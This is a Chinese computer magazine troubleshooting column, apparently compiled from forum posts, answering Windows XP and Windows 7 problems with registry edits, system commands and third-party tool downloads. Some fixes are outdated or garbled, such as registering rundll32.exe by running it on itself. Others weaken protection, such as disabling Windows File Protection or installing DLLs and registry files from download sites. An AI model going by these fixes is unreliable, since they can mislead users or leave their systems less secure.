问：我使用Virtual PC软件虚拟了一个Windows XP系统，之前使用保存状态方式关闭了虚拟PC系统，最近尝试了几次想恢复时总是提示主机上没有足够的可用内存，我重新启动系统后也不能恢复，在控制台中也不能重新分配虚拟内存大小。请问这该如何解决？

答：这是因为你在保存状态时虚拟PC系统占用的内存资源较大，而在恢复时可能因为运行的软件太多而导致物理内存不够，无法还原。出现这种情况可以尝试在任务管理器的进程列表中将其他应用程序一一关闭以腾出系统资源，然后再重新打开虚拟机并恢复，如果能成功恢复，请重新合理分配虚拟机的可用内存资源。此外，也可以尝试在安全模式下打开虚拟系统。

### 右击桌面“属性”打不开

问：我用的是Windows XP系统，最近右击桌面空白处并选择“属性”时总是无法正常打开，同时还会提示Rundll.exe出错。请问这是什么原因？

答：这可能是系统感染了病毒而破坏了系统文件Rundll.exe文件所致，正确的解决方法：

首先对系统进行病毒查杀，接下来再从别的电脑中搜索Rundll.exe这个文件并将其拷贝到自己系统中的C:\WINDOWS\system32目录，最后再按Win+R打开运行对话框，输入“rundll32.exe c:\windows\system32\rundll32.exe”重新注册该文件即可。注：假如没有条件从其他电脑中拷贝，也可以直接从http://www.dll-files.com/dllindex/index.shtml搜索下载该文件。

来源： http://bbs.cfan.com.cn/thread-983055-1-1.html

傻博士有话说：系统中有很多扩展名为dll的文件，它们都是系统组件，系统中的很多功能（包括其他软件）都需要这些文件的支持才行，当因为病毒感染或是误删除等原因导致该类文件丢失、损坏，系统中相应的功能就会无法正常运行。通常的做法就是按照错误提示记下该dll文件的名称，然后从其他同版本的系统中或是从网上专业dll文件提供网站下载并将其放到系统目录下的System32目录中，最后再使用rundll32.exe命令重新注册该文件即可解决问题。此外，在有源系统安装文件的情况下使用“sfc /scannow”命令来恢复系统损坏文件来解决。

### Windows 7 只能显示 1024×768 的分辨率

问：我安装的是Windows 7系统，屏幕分辨率只有设置为1024×768时显示正常，如果设置更高的话就会出现画面扭曲现象。请问这是什么原因？

答：这种问题十之八九都与显卡驱动程序有关，到显卡官方网站查看是否有适合Windows 7的最新版驱动程序，如果有直接更换即可解决问题。如果找不到专门匹配Windows 7系统的驱动程序版本，可以直接借助Windows 7的系统更新功能尝试下载适合Windows 7系统的显卡驱动程序 (按开始菜单，选择“所有程序→Windows Update”项，在打开的窗口中单击“检查更新”，检查完毕后查看是否有显卡相关驱动程序，有则直接安装即可)。如果Windows 7的更新程序能够找到匹配的驱动程序，这样的问题也可以解决。

来源： http://bbs.crsky.com/read.php?tid=1706166&fpage=2

### 系统自带画图工具不能正常运行

问：我使用的是Windows XP系统，一直使用的画图工具最近找不到了，我从其他电脑中拷贝了“mspaint.exe”并放到了System32目录中也不能解决问题。请问这该如何解决？

答：这可能是注册表中相关项损坏所致，尝试按Win+R打开运行对话框，输入“reg add "HKEY_CLASSES_ROOT\SystemFileAssociations\image\shell\edit\command" /ve /d ""%systemroot%\system32\mspaint.exe" "%1"" /t REG_EXPAND_SZ /f”并回车来解决问题。

来源： http://bbs.crsky.com/read.php?tid=1696110&fpage=6

### Windows 7 不能正常使用管理工具

问：我安装的是Windows 7系统，想对系统中的相关参数进行一番设置，但是无法打开系统管理工具，打开时总是提示没有关联文件。请问这该如何解决？

答：这可能是系统文件损坏所致，解决方法很简单：使用“修理管理”工具，运行一次即可解决问题。

来源： http://bbs.winzheng.com/viewthread.php?tid=1988514&extra=page%3D1%26amp%3Bfilter%3Dtype%26amp%3Btypeid%3D45

### SFC 命令总需要安装光盘

问：我的系统出现问题了，提示缺少系统文件，后来我准备使用SFC命令恢复系统文件，结果总是提示要插入系统光盘才行，而之前已经将安装文件拷贝到硬盘中了。请问，如何让该命令直接从硬盘中保存的系统安装文件中读取数据？

答：按Win+R打开运行对话框，输入“regedit”并回车打开注册表编辑器，依次定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Setup]，将下面的“SourcePath”改成硬盘安装文件的路径即可。

来源： http://bbs.shudoo.com/viewthread.php?tid=1714854&extra=page%3D1

### 系统为何会自动开机

问：我安装的是Windows XP系统，有时候将电脑插上电源后就会自动开机，而有时候则不会，检查了系统并没有发现病毒。请问这是什么原因？

答：这一般是由于在BIOS中设置了断电后自动开机功能，只要将此功能关闭即可：

重新启动并按DEL进入BIOS设置，接下来将“POWER MANAGENT SETUP”的“Restore ac power loss”设置为“Disabled”，再将“POWER MANAGENT SETUP”的“PM Control by APM”设置为“Yes”即可。

BIOS版本不同，设置方法也不一样，若上述方法不奏效，请这样设置：选择“Integrated Peripherals→SuperIO Device”，将其中的“Restore On AC Power Loss”选项修改为“Power Off”

### 无法打开控制面板中的用户账户

问：我安装的是Windows XP系统，打开控制面板后发现“用户账户”总是无法打开，我需要设置一下系统账户。请问这该如何解决？

答：这可能是控制面板中的账户组件对应的文件损坏或是丢失所致。解决思路：准备好系统安装光盘或是系统安装源文件，单击“开始→运行”，并在打开的对话框中输入“sfc /scannow”并按照提示对损坏的系统文件进行修复。如果没有安装光盘及安装源文件了，可以从其他同版本操作系统中拷贝“nusrmgr.cpl”文件并放到自己系统中的C:\Windows\system32目录，接下来在运行对话框中输入“regsvr32 nusrmgr.cpl”来注册该文件即可。

傻博士有话说：在控制面板中可以看到的多项设置项，每个设置项都是对应于一个扩展名为cpl的文件，默认放在System32目录中，假如误删除或是病毒引起某个cpl文件丢失就会出现对应的控制面板项无法打开，这时，可以通过上面的方法来恢复。此外，针对本问答中的问题，如果只是想修改账户密码，也可以通过下面方法直接打开用户，也可以这样来打开设置窗口：在运行对话框中输入“rundll32 netplwiz.dll, UsersRunDll”，按回车键后弹出“用户账户”窗口。

来源:http://wenda.tianya.cn/wenda/thread?tid=66891e925e949d9b

### 无法打开设备管理器

问：我试图打开设备管理器时，系统问题提示MMC无法创建管理单元，试了多种方法仍不能打开。请问这该如何解决？

答：这可能是设备管理器对应的文件损坏所致。解决方法：将“http://work.newhua.com/cfan/200920/dev.rar”解压并将其中的“devmgr.dll”和“devmgmt.msc”文件拷贝并覆盖C:\Windows\System32目录下的同名文件，然后再运行压缩包中的“设备管理器.reg”即可解决。

来源:http://bbs.cfan.com.cn/thread-918423-1-3.html

### 无法使用休眠功能

问：我安装的是Windows XP系统，以前可以正常地使用休眠功能，但是现在我在设置休眠时系统总是提示：无法启用休眠，显示“能源策略管理器无法保留休眠文件”，请问这是什么原因？

答：这可能是系统盘中剩余空间低而导致的，休眠系统时需要在系统分区中生成一个名为hiberfil.sys文件，该文件与物理内存大小相当，如果系统分区的剩余磁盘空间低至无法保存这个文件时，就会出现上述故障，只要将系统中的垃圾文件清除，将回收站清空，不用的文件删除以及卸载不用的程序，腾出系统盘的空间后即可解决问题。

### XP下部分 exe 文件不能运行

问：我安装的是Windows XP系统，系统中的很多扩展名为exe的可执行程序不能正常运行，而其他文件则可以正常运行。请问这是什么原因？

答：这可能是病毒感染导致exe文件关联破坏所致，可以按下面方法来解决：

新建一个记事本文档，然后输入以下内容：
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\exefile\shell\open\command]
@=""%1" %*"
将其保存为扩展名为reg的文件(例如“EXE关联文件修复.reg”)，之后只要双击将其合并到注册表中即可。

来源:http://bbs.cfan.com.cn/thread-985539-1-7.html

### 桌面天气预报为何不能使用

问：我安装的是Windows 7系统，在使用桌面天气预报时，总是不能正确地选择我所在的城市，不能正确显示天气预报信息。请问如何才能解决此问题？

答：这个问题在Windows Vista系统中就有了，可以直接在控制面板中的区域设置中将位置设置为北美或是欧洲地区，然后就能正常使用，如果不想更改区域设置，还可以按下面的方法来解决：

先借助Vista优化大师类软件在鼠标右击菜单中添加“管理员取得所有权”，接下来打开“%programfiles%\Windows Sidebar\Gadgets\Weather.Gadget\[系统界面语言]\js”并获取该文件夹的管理员所有权，将“http://work.newhua.com/cfan/200920/js.rar”解压得到的几个文件覆盖上述目录下的同名文件。接下来再将“http://work.newhua.com/cfan/200920/local.txt”文件中的内容拷贝并粘贴到js文件夹下面的“localizedStrings”文件的末尾，保存好退出。经过上面的操作后就可以正常地使用Windows 7的桌面天气预报了。也可以方便地更换中国各大城市。

来源:http://bbs.et8.net/bbs/showthread.php?t=975676&catid=316

### 无法打开媒体播放器

问：我安装的是Windows 7系统，前几天媒体播放器可以正常启用，但是今天却无法找到媒体播放器了，即使直接双击歌曲后在打开程序列表中也找不到媒体播放器的踪影了。请问这是怎么回事？

答：这可能是在系统中将媒体播放器禁用了。打开控制面板，切换到“小图标”模式，再打开“程序和功能”项，再单击“打开和关闭Windows功能”，在打开的窗口中展开“媒体功能”，检查“Windows Media Player”项是否被取消选中，只要保持选中状态，就可以解决因为系统禁用而导致的不能正常使用了。

傻博士有话说：在Windows 7系统中，可以通过“打开和关闭Windows功能”这个设置来开启或是禁用系统中的很多服务或是应用程序，例如可以用来关闭IE浏览器、.Net Framework组件、Windows Search、系统自带的游戏等。假如在从Windows 7以前的操作系统中升级到Windows 7系统后发现很多组件没有了，都可以通过这个方法来找回，最典型的就是Windows 7中无法找到以前玩的扫雷、空当接龙这类小游戏，主要是系统默认没有开启，只要手工开启即可。

### 系统为何会自动关闭

问：我安装的是Windows XP SP3，最近系统老是自动关闭，而且关闭后还不能马上开机，如果立即开机会启动后立即关机，只有等一段时间才能开机，有时候还要尝试几次才行。请问这种故障如何解决？

答：这类故障没有一个规则的答案，不过，一般可以按下述思路来解决：

首先，将杀毒软件病毒库更新，并对系统进行通体查杀。有些病毒感染后也会导致类似的故障发生。接下来，打开机箱，检查CPU风扇、显卡风扇是否能正常工作，如果风扇因为灰尘或是进入异物、缺油等原因导致不能正常工作而不能正常散热就会出现系统自动关闭的现象，请根据具体情况进行排除。此外，如果CPU风扇散热片安装不到位而导致散热不良也会出现类似情况。最后，再考虑各个硬件设备之间是否有松动现象(这一半多出现在老机器上)，重新插拔一次一般可以解决问题。

来源:http://bbs.et8.net/bbs/showthread.php?t=981983

### 无法打开“计算机”的管理功能

问：在Windows XP系统中可以右击“我的电脑”并选择“管理”来打开系统管理器，而在Windows 7中如法炮制却不成功，提示没有相应的关联程序支持。请问这是什么原因？

答：这可能是因为系统相关组件受损所致。尝试按Win+R打开运行对话框，输入“sfc /scannow”并配合系统安装光盘或是源安装文件进行修复，若这样不能解决问题，想对计算机进行管理时，只要打开控制面板，切换查看方式为“小图标”，接下来再找到“管理工具”，打开后可以找到所有相关的管理工具，而其中的“计算机管理”就与右击“计算机”打开的管理功能一样。

### 任务栏总是自动隐藏

问：刚安装的Windows XP系统，之前设置过将任务栏自动隐藏，之后感觉不好用，又在设置中取消取自动隐藏，但问题就来了:每次打开网页或是最大化程序窗口时它就会自动隐藏掉了，而隐藏设置却没有变。请问这是什么原因？

答：这不是因为将任务栏设置为自动隐藏，而是没有将任务栏设置始终保持在最前端所致。只要右击任务栏并选择“属性”，在设置中选择“将任务栏保持在其他窗口的前端”即可。

来源:https://dream4ever.org/showthread.php?t=243349

### 安装时遇到“安装程序无法创建新的系统分区”

问：我在使用量产过的优盘安装Windows 7系统时，进入安装向导并检测到分区后，在选定的分区上进行下一步时便得到提示:安装程序无法创建新的系统分区。请问这该如何解决？

答：重新用优盘引导系统并进入安装向导，在“现在安装 Install Now”界面的左下角有个“修复计算机 Repair My Computer”选项，选择进入，再选择第一项“修复启动 Startup Repair”，修复完重启，再选择分区安装即可。

来源:https://dream4ever.org/showthread.php?t=242913

### 开始菜单不显示最近使用的程序

问：我安装的是Windows XP SP3，以前“开始”菜单中可以正常显示最近打开过的程序列表，但不知道从什么时候开始，“开始”菜单不再显示最近打开的程序列表信息了，显示一片空白。请问这该如何解决？

答：这可能是系统参数被更改所致。请按下述方法解决:按Win+R打开运行对话框，输入“gpedit.msc”回车打开组策略编辑器，依次找到“用户配置→管理模板→‘开始’菜单和任务栏”项，在右侧找到并双击“关闭用户跟踪”项，直接将其设置为“已禁用”，保存后重新启动系统即可解决问题。

来源:https://dream4ever.org/showthread.php?t=242183

### 经常出现无法停止通用卷提示

问：我用的是Windows XP系统，平时在使用USB设备时，试图终止USB设备时，系统总会提示无法停止通用卷的提示。请问这是什么原因？

答：这可能是USB设备当前仍有数据读、写操作，或者在资源管理器中打开了该USB设备中的某个文件或是文件，在关闭了所有可能打开的文件及文件夹后仍不能正常停止，可以尝试在任务管理器(按Ctrl+Shift+Esc打开任务管理器，再选择“进程”选项卡)中结束Explorer.exe进程后再拔除USB设备，然后在“文件→运行”中重新启动该进程，这样可以避免损坏USB设备中的数据，又可以放心地拔下USB设备了。

傻博士有话说:平时一般要求在拔除USB设备时先停用该设备，然后再拔除，主要是为了防止损坏USB设备中的数据，不过，经常会遇到无法拔除的情况。其实，在Windows XP以上版本操作系统中提供了USB设备优化功能，只要开启优化功能，先将USB设备插到USB接口，右击“我的电脑”并选择“属性→硬件→设备管理器→磁盘驱动器”，找到“USB Flash Drive USB Device”(不同品牌的USB设备名称可能不同)，然后双击打开“USB Flash Drive USB Device属性”对话框。切换到“策略”选项卡，选中“为快速删除而优化”，单击“确定”退出，以后不用理会系统托盘中的“安全删除硬件”图标，只要没有对USB设备进行数据读写操作(即USB设备的指示灯不闪动)，就可以直接将USB设备从USB接口拔下来了。

### C盘无法完成碎片整理检测

问：我用的是Windows XP系统，在使用磁盘碎片整理功能时，其他三个盘可以完成整理，而在整理C盘时，总是出现错误，错误信息:由于文件损坏，磁盘碎片整理程序无法继续预扫描: C:\Documents and Settings\All Users\Application Data\Kaspersky Lab\AVP9。请问这是什么原因？

答：这主要是由于你安装的卡巴斯基杀毒软件的自我保护所致。只要按下述方法暂时关闭卡巴斯基的自我保护功能，待整理完毕后再重新开启自我保护功能即可。开启及关闭卡巴斯基的自我保护功能:打开卡巴斯基的选项设置窗口，在左侧列表中选择“保护”，在右侧窗口中便可开启或是关闭卡巴斯基的自我保护了。

来源: http://bbs.shudoo.com/viewthread.php?tid=1744385&extra=page%3D1

### 系统总是提示“Windows 文件保护”提示

问：我刚安装的Windows XP系统，在使用时系统总是提示“Windows文件保护”对话框，同时还提示当前系统中的某个文件已被换成无法识别的版本，需要还原这些文件。请问这是什么原因？

答：这可能是在安装软件时，软件的安装向导将系统中的某个文件替换掉了，这种情况下一般只要使用系统安装光盘，按照提示向导恢复一下即可解决问题。如果频繁出现这样的提示，系统感染病毒的可能性较大，建议做好杀毒清理工作。排除病毒的原因后，可以通过在组策略中关闭Windows文件保护来去掉这个提示:按Win+R打开运行对话框，输入“gpedit.msc”并回车打开组策略编辑器，依次定位到“计算机配置→管理模板→Windows文件保护”项，然后在右侧窗口中找到“设置Windows文件保护扫描”项并将其关闭即可。

来源: http://bbs.et8.net/bbs/showthread.php?t=983723&catid=316

### 无法删除回收站文件

问：之前将一个文件删除到了回收站中，接下来再从回收站中删除该文件时系统提示无法删除的错误信息。请问这是什么原因？

答：一般在硬盘中有错误时会出现这样的错误提示。只要使用磁盘检测功能对磁盘进行一次检测及错误修复即可解决问题。其次，遇到病毒或是使用加密软件加密的文件，也会出现这类问题，使用冰刃(下载地址: http://www.newhua.com/soft/53325.htm)之类的工具就可以将其删除了。

来源: http://bbs.et8.net/bbs/showthread.php?t=983486&catid=316

### Windows 7 下如何使用工行旧版U盾

问：我安装的是Windows 7 64位版本系统，使用的是华虹U盾，安装驱动程序后系统没有识别U盾，现在无法使用网上银行。请问如何解决？

答：你用的是旧版U盾，需要按下面的步骤才能在Windows 7系统中正常使用:

- 安装“工行网银助手”后，在资源管理器中打开“c:\windows\syswow64\hhdrver\”，右键单击“installdriver.exe”，在兼容性选项卡中选中“以兼容模式运行这个程序”，并选择“Windows Vista (Service Pack 1)”，按确定后运行。
- 系统会提示找到一个智能卡，但无法安装驱动。进入设备管理器，双击“智能卡”，按“更新驱动程序”，在向导中选“浏览计算机以查找驱动程序软件”，再选“从计算机的设备驱动程序列表中选择”，再选中“智能卡读卡器”，点下一步，在窗口的左边选中“HuaHong”，在右边选中“HuaHong Virtual SmartCard Reader”，单击“下一步”按钮，在弹出的警告窗口中选择“是”，这时系统会提示驱动安装成功。

经过上述操作后，插入U盾后系统就会提示找到U盾，打开“客户端管理工具”就可以正常看到U盾了。

来源: https://dream4ever.org/showthread.php?t=244678

### 打开任何文件便出现打开方式对话框

问：在360安全卫士中显示修改了一个log恶意篡改，重新启动系统后打开桌面上任何文件都会弹出打开方式对话框。请问这该如何修复？

答：首先尝试直接从http://www.onlinedown.net/soft/25562.htm下载这款SREng的小工具，如果解压后能够正常运行，只要通过“系统修复→文件关联”来对系统中被破坏的文件关联修复一次即可解决问题。假如不能运行该程序，请先按下面方法手工修改exe文件的关联:在资源管理器中单击“工具→文件夹选项→文件类型→新建→文件扩展名(exe)”，单击“高级”按钮，关联的文件类型选“应用程序”，单击“确定”保存设置，接下来再运行SREng进行修复即可。

傻博士有话说：不少病毒感染系统后会破坏系统中的文件关联，表现出来的故障就是打开任何文件时都会弹出打开方式对话框，有些朋友可能会使用杀毒软件进行杀毒处理，此时甚至还会出现杀毒软件无法运行的情况。这种情况下，可以尝试将杀毒软件或是修复工具的扩展名由exe修改为com，然后尝试运行、修复，或者通过上面的方法手工重建exe文件的关联，还可以通过将下面的内容通过记事本程序另存为“EXE修复关.reg”，最后再将其导入注册表来完成exe文件的关联。

## Windows 无法显示防火墙设置

问：我用的是Windows XP SP3系统，上次在使用过程中出现由于不可识别问题，Windows无法显示Windows防火墙设置，系统防火墙无法使用。请问这该如何解决？

答：这可能是系统被病毒破坏了相关数据所致，可以通过修复注册表的方法来解决这个问题：只要将“http://work.newhua.com/cfan/200923/Share.rar”合并到注册表中重建防火墙在注册表中的相关参数即可完成修复，重新启动系统后即可正常使用系统防火墙及其设置了。

来源：http://bbs.cfan.com.cn/thread-1001628-1-2.html

## 任务栏不显示程序图标

问：我使用的是Windows XP系统，在将程序窗口最小化时，任务栏中却不显示最小化后的程序图标。请问这是什么原因？

答：这种故障经常会出现，都是由于安装软件或是人为因素导致系统参数设置被更改所致，只要修复一次即可解决问题，运行一次“http://work.newhua.com/cfan/200923/show.rar”压缩包中的批处理文件即可进行修复。

来源：http://bbs.crsky.com/read.php?tid=1749487&page=2

## 文件夹选项显示为空白

问：平时经常打开文件夹选项来设置显示或是不显示隐藏文件，今天打开时发现文件夹选项窗口一片空白，请问这是什么原因？

答：这可能是中病毒或是人工误操作而删除注册表中相关键项所致，只要手工修复一遍即可。按Win+r打开运行对话框，输入“regedit”并回车打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\explorer\Advanced\Folder\Hidden\SHOWALL]，检查是否有CheckedValue键值项，有的话将它的键值修改为“2”，如果没有直接手工新建一个名为“CheckedValue”的“DWORD值”，然后将其值修改为“2”即可。退出注册表编辑器，重新启动计算机。然后看一下[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden]右边窗口中的type项的值是不是group，如果不是就改成该值即可。

来源：http://bbs.cfan.com.cn/thread-1008958-1-2.html

```
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\exefile\shell\open\command]
@=""%1" %*"
```

来源：http://bbs.cfan.com.cn/thread-520098-1-3.html

## 无法安装 Realtek 声卡驱动

问：我安装了Windows 7系统后，就一直无法安装Realtek声卡的驱动程序，即使是从官方网站下载最新支持Windows 7系统的驱动也不行，显示信息为：安装Realtek HD Audio Driver失败!! [Error Code:0XE000100]。请问这是什么原因？

答：这可能是因为Windows 7系统中的某个驱动程序与Realtek的芯片驱动不兼容所致，可以通过下面方法来解决：

- 第一步：先到声卡官方网站下载好最新支持Windows 7系统的驱动程序，再安装“获取和取消管理员权限”这款小工具(下载地址http://work.newhua.com/cfan/200923/qun.rar)，运行其中的“导入”注册表文件。
- 第二步：打开Windows 7系统的Windows文件夹并找到下面这个文件夹：Windows\system32\Driverstore\FileRepository\wdmaudio.inf_x86_neutral_aed2a4456700fde这个文件夹，找到后右击该文件夹并选择“管理员权限取得”，接下来打开该文件夹并将下面的七个文件全部删除，最后直接将下载并解压出来的七个驱动程序文件拷贝到该文件夹中，最后就可以顺利地安装声卡驱动程序了。

来源：http://bbs.cfan.com.cn/thread-984860&catid=316

## 系统无法打开 hlp 文件

问：我以前在Windows XP系统中时，可以直接打开扩展名为hlp的帮助文件，但自从升级到Windows 7系统后，就无法打开该类文件了。请问这是什么原因？

答：只要到http://www.microsoft.com/downloads/details.aspx?displaylang=zh-Hans&FamilyID=258a5ec-e3d9-4228-8844-008e02b32a2c下载安装这个查看程序即可解决问题。

来源：http://bbs.cfan.com.cn/thread-983414&catid=316

## 魔法分区显示 117 错误

问：我安装的是Windows XP SP3，安装了魔法分区8.0，在运行时总是提示“初始化失败，错误117 Partition's driver letter cannot be identified”，请问这该如何解决？

答：这主要是因为你的系统盘符紊乱所致，当Partition Magic无法识别时，将会出现错误117的提示框。特别是光驱的盘符夹在了其他本地磁盘的盘符之间容易导致此故障出现。解决方法是：在“控制面板”中打开“管理工具”，然后依次选择“计算机管理→存储→磁盘管理”，修改各个错乱的盘符，一定要将光驱排在最后。这样设置后即可解决问题。

傻博士有话说：在使用分区管理软件、Ghost程序或是被病毒感染，系统盘符都有可能被打乱顺序，出现这种情况后会导致各种问题的产生，例如部分应用程序不能正常运行，这时，只要手工将错乱的盘符重新排序并进行修正即可。此外，为了防止日后盘符紊乱而不能正确排序，最好为每个磁盘分区设置卷标，设置了卷标也方便文件管理，例如存放软件的磁盘卷标设置为soft或“软件”，存放音乐的磁盘设置为music或“音乐”。

来源：http://bbs.cfan.com.cn/thread-901359-1-1.html

## 无法卸载 Live Messenger

问：我将Windows Live Messenger卸载后重新安装最新版本时，系统总是提示已经安装了，而硬盘中却没有相应的目录，现在是既不能使用又不能安装。请问如何解决？

答：出现这个情况后，只要到http://www.jonathankay.com下载这款名为ZapMessenger的小工具(需要微软的.Net Framework 2.0环境)，即可将系统中Live Messenger（也支持MSN Messenger等其他版本）残留信息清除干净，使用起来很简单，直接运行后单击主窗口中的Start按钮就开始卸载、删除系统中残留的Live Messenger信息，清除这些残留的信息后再安装Live Messenger自然就没有问题了。

## KMPlayer 无法播放录制的 WMV

问：我录制了一段教学录音，录制后的格式为WMV，但是在使用KMPlayer播放器播放时总是显示错误，提示不支持该影片中的部分数据流格式。请问这是什么原因？

答：不管哪款播放器都不是万能的，要想对特定格式的音、视频完好的支持，则需要相应的解码器的支持才行。你遇到的这个问题就是解码器不完善所致，也许你使用的不是完整版的KMPlayer播放器，可以从http://dl.pconline.com.cn/html_2/1/124/id-10344&pn=0.html下载完整版的KMPlayer进行播放，或者从http://www.onlinedown.net/soft/57110.htm下载终极解码器包，安装到系统中，之后也可以使用原先的KMPlayer播放器直接播放。

## 小红伞注册号怎么过期了

问：我下载安装了免费版的小红伞杀毒软件，但今天在运行时系统提示小红伞注册号过期了。请问这是什么原因？

答：你使用的应该是Classic（经典版）的小红伞程序，虽然是免费的，但小红伞仍须序列号，在第一次安装时的设置向导中就有个注册步骤。当系统提示要重新注册时，只要到http://dl1.avgate.net/down/windows/hbedv.key重新下载KEY，直接覆盖安装文件夹内的原文件即可解决问题。

## 如何找回被瑞星删除的文件

问：之前一份重要的文件被病毒感染了，我在使用瑞星杀毒时误选择了删除染毒文件，请问如何才能找回这份重要的文件？

答：瑞星杀毒软件默认情况下，会在实际杀毒前对待处理的目标文件进行备份，可以尝试通过以下方式找回被删除的重要文件。选择“开始→瑞星杀毒软件→病毒隔离区”，此时可以看到备份的文件列表，右键点选要恢复的文件后在右键菜单中选择“恢复”或“恢复为”即可将该文件恢复到原先的位置了。

## 如何找回文件名变绿的文档

问：“我的文档”设置在D盘，其中保存了大量重要的文件，但上次系统中毒后使用一键还原将系统恢复到之前备份的状态，结果这些保存在D盘中的文件都无法打开，文件名成为绿色的。请问这是什么原因？

答：这些文件可能使用了NTFS磁盘下的EFS加密功能，将文件加密了。这种情况下只有使用加密时使用的系统账户或者在导入之前备份的账户数字证书的情况下才能打开，目前还没有能够破解EFS加密文件的软件。既然使用了一键还原备份了系统，尝试在恢复了系统后使用自己常用的系统用户名来打开这些文件，如果在加密时登录的系统账户及操作系统作成了备份文件，在还原后应该可以打开这些加密文件。

## Word 不能正常保存文件

问：昨天还可以正常使用，今天打开Word编辑文档时，第一次能够正常保存，再过一会执行保存命令时就会提示“权限许可错误，不能保存”。请问这是什么原因？

答：首先，检查是否与系统中安装的杀毒软件有冲突，请在杀毒软件或是防火墙中将Word添加到排除列表中，接下来再检查磁盘剩余空间是否不足。此外，如果在NTFS格式磁盘中设置了磁盘配额，可以尝试重新保存到另外一个磁盘空间中，如果能够正常保存，那就可以从磁盘空间及磁盘配额的角度来解决问题。

傻博士有话说：配额功能是NTFS格式磁盘独有的一项功能，可以为特定的用户设定磁盘使用空间的限度，方法很简单：右击NTFS格式的磁盘分区并选择“属性”，在打开的窗口中选择“配额”选项卡。接下来只要启动配额并设定具体的空间值即可。这样设置后，当用户在使用过程中，如果他所占用的磁盘空间配额用完后，系统就会自动弹出提示。在上面的设置窗口中勾选“拒绝将磁盘空间给超过配额限制的用户”即可。这项功能可以用来控制某个特定的用户对硬盘的使用权限。

## 记事本无法编辑 BAT 文件

问：为什么我右击BAT批处理文件并选择“编辑”后，系统提示“文件名、目录名或卷标语法不正确”？

答：这可能是注册表中的相关项目被修改而导致的。只要将下述代码输入到一个空白记事本文本文件中，最后将此记事本文件另存为REG文件并导入到注册表中即可（REG文件下载地址：http://work.newhua.com/cfan/200913/xfjsb.rar）。

## 为何不能播放音乐

问：我从网上下载了一批音乐文件，使用系统自带的播放器进行播放，有些歌曲可以正常播放，而有些歌曲却不能播放，系统提示要安装解码器，如何解决？

答：默认安装下，系统自带的媒体播放器并没有安装全部音频播放解码器。因此，在播放部分没有相应解码器的音频时就会无法播放。如果使用的是最新的媒体播放器，系统会自动提示从网上搜索下载解码器。其实，只要直接在系统中安装“终极解码”（下载地址：http://download.pchome.net/multimedia/media/detail-10544.html），安装后播放器就可以支持几乎所有的音频、视频了。

来源：http://bbs.cfan.com.cn/thread-1807-1-2.html

## 小红伞与 OP 防火墙冲突

问：我之前安装了小红伞杀毒软件，为了安全起见，今天又下载安装了Outpost Firewall(OP)防火墙，但小红伞与它产生了冲突导致防火墙无法启动。请问如何解决？

答：只要按下面的步骤设置一番即可：
首先，右击托盘区的小红伞程序图标并选择Configure AntiVir(小红伞设置)项，在打开的设置窗口中选中Expert mode(专家模式)选项，依次展开Guard→Scan(侦测→扫描)。点击+，再选择Exceptions(例外)，在Processes to be omitted for the Guard(排除监控进程)区域中添加OP的两个进程acs.exe和op_mon.exe。最后在File objects to be omitted for the Guard(排除监控文件)中添加Outpost的安装目录（默认情况下应该是C:\Program Files\Agnitum\Outpost Firewall），最后单击OK保存设置即可。

## 无法关闭搜狗拼音的自动更新

问：我使用的是搜狗拼音输入法，已经在参数设置中的高级设置里面设置成不自动升级了，但在使用过程中还是会自动提示更新词条。请问，如何才能彻底关闭搜狗拼音的自动更新词条？

答：在搜狗拼音的设置中将“启用细胞词库自动更新”选项去掉，勾选“不自动升级”。接下来，在控制面板中的“任务计划”，删除搜狗的任务计划SougouImeMgr。最后按Ctrl+Shift+Esc并回车，在打开的进程管理器中找到PinyinUP.exe进程并将其结束，打开搜狗拼音安装目录，重命名PinyinUP.exe（例如为SOUGOU.exe），接下来再新建一个空文件夹并取名为PinyinUP.exe即可。

来源：http://bbs.cfan.com.cn/thread-910982-1-9.html

## VMWare 为何不识别优盘了

问：之前使用一切正常，但自从上次不小心点了虚拟系统托盘区中的“安全删除”删除了一个项目后，现在的VMWare不识别优盘了。请问如何修复？

答：这可能是将USB控制器删除了而导致无法访问优盘，只要打开VMWare的参数设置窗口，选择Hardware(硬件)选项卡，单击Add(添加)按钮添加一个USB Control (USB控制器) 项就能解决问题。

## 安装 Adobe CS3 提示安装程序数据库损坏

问：我在安装Adobe CS3时，安装向导总是提示安装程序数据库已损坏，如果问题持续出现请联系Adobe客户服务。请问这是什么原因？

答：这可能是之前系统中安装过Adobe CS3或早期版本的程序。解决方法如下：
先在文件夹选项中设置显示所有文件及文件夹，再分别将下述目录删除：C:\Documents and Settings\All Users\Application Data目录、C:\Documents and Settings\当前用户名\Application Data目录、C:\Program Files目录、C:\Program Files\Common Files目录，将这4个目录中与Adobe相关的文件夹删除，再打开注册表编辑器，搜索Adobe，找到后直接删除相关项，再按F3继续搜索并删除Adobe相关项，清除完毕后再安装即可。

傻博士有话说：这种因为之前安装过了的软件之后又卸载了，导致无法安装的现象经常会出现。这主要是由于之前安装的软件在卸载时没有卸载得彻底，例如会在硬盘中、注册表中有残留项，或者在系统服务中留有相关服务没有禁止，就会导致无法继续安装该软件。除了通过上面的方法手工清除该软件的残留文件、注册表项或是停用相关服务外，很多常用的软件（例如杀毒软件、Office等）在网上可以找到专用的卸载工具进行彻底清除残留文件，也可以使用完美卸载这类工具进行清除，清除干净后就可以正常安装了。

来源：http://bbs.cfan.com.cn/thread-922069-1-1.html

## 使用金山词霸 Explorer 就关闭

问：不管使用金山词霸2003还是2005，在使用过程中，Explorer就会自动关闭，之后再将鼠标移到金山词霸窗口之外的其他位置，Explorer还会再次关闭。请问这是什么原因？

答：这是金山词霸早期版本的鼠标取词功能与系统不兼容所致。升级到金山词霸2007或更高版本即可解决问题，或者在低版本环境下按F6关闭鼠标取词功能，也可以避免与系统冲突而导致的Explorer自动关闭的问题。

## 如何禁止优化大师在桌面创建文件夹

问：我从网上下载了一个最新版的Windows优化大师绿色版，在每次运行时都会自动在桌面生成一个WoptiUtilities文件夹，删除后下次重启还会生成。请问如何禁止其自动生成文件夹？

答：打开绿色版程序目录，找到隐藏文件Set.ini并直接将其删除即可，下次重新运行优化大师时，系统会自动生成该文件。

## 魔兽总是显示错误

